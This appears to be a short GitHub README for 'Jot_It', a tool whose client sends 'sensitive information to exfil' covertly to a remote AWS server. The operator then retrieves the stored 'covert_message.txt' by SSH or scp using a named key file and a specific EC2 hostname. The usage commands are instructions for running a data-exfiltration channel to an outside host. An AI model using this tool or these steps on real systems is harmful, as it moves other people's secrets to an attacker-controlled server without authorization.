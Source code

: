 ### Installation

* Server already up, just need to run client executable


## Usage

1. Start the client
```sh
/pathToClient/client 'senstiveInformationToExfil'
```
Replace pathToClient with the path to client executable; replace senstiveInformationToExfil with sensitive info

## Accessing the message

1. Configure Key
```sh
chmod 600 Jot_It_passkey.pem
```

2. SSH into server
```sh
ssh -i /pathToKey/Jot_It_passkey.pem ubuntu@ec2-34-215-236-80.us-west-2.compute.amazonaws.com
```
replace pathToKey with path to Jot_It_passkey.pem

3. Message located in /home/ubuntu/Jot_it/covert_message.txt

4.  Alternatively, could download the message with
```sh
scp -i /pathToKey/Jot_It_passkey.pem ubuntu@ec2-34-215-236-80.us-west-2.compute.amazonaws.com:/home/ubuntu/Jot_it/covert_message.txt ./covert_message.txt
```
replace pathToKey with path to Jot_It_passkey.pem


